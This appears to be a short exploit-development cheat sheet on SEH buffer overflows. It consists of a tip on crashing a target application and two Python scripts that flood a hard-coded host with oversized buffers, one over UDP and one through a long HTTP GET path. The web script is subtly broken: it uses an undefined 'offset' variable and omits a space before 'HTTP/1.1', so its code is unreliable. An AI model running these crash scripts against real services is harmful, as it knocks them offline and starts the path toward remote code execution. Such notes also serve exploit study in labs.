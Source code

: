 # SEH Overflows

## Crashing The App

```
You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn't send the data at once.
```

## Network Script

```
#!/usr/bin/python
import socket, os, time, struct

host = "192.168.0.101"
port = 8433
size = 2000
buffer = b"\x41" * size
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((host, port))
s.send(buffer)
s.close()

```

## Web Script

```
#!/usr/bin/python
import socket, sys

"""

# offset
2499

"""
host = "192.168.224.10"
port = 80


def send_exploit_request():
    size = 6000
    buffer  = b"A"*offset


    #HTTP Request
    request = b"GET /" + buffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + host.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(request)
    s.close()

```